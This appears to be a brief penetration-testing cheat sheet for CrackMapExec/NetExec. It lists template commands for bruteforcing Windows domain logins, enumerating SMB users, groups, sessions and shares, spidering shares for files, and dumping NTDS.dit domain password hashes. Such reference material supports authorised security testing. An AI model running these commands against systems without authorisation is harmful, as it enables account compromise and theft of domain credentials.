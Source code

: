 CrackMapExec (or the new fork NetExec) is a very powerful tool for Windows domain enumeration and bruteforcing, with lots of options to play with. 

## Bruteforcing (Simple)
```shell
crackmapexec <protocol> <IP> -u <username or userlist> -p <password or passwordlist> # Bruteforce a protocol with CME
```
## SMB Mode
```shell
crackmapexec smb 172.16.5.5 --users
# Enumerate number of bad password attempts
crackmapexec smb <DC_IP> -u <username> -p <password> --users # Enumerate Domain Users
crackmapexec smb <DC_IP> -u <username> -p <password> --groups # Enumerate Domain Groups
crackmapexec smb <DC_IP> -u <username> -p <password> --loggedon-users # Enumerate Domain Users who are currently logged on
crackmapexec smb <DC_IP> -u <username> -p <password> --shares # Enumerate Domain shares
crackmapexec smb <DC_IP> -u <username> -p <password> -M spider_plus --share <share name> # Spider SMB share for all readable files
crackmapexec smb <DC_IP> -u <username> -p <password> --ntds # Dump NTDS.dit and print all domain hashes
```

https://github.com/Pennyw0rth/NetExec


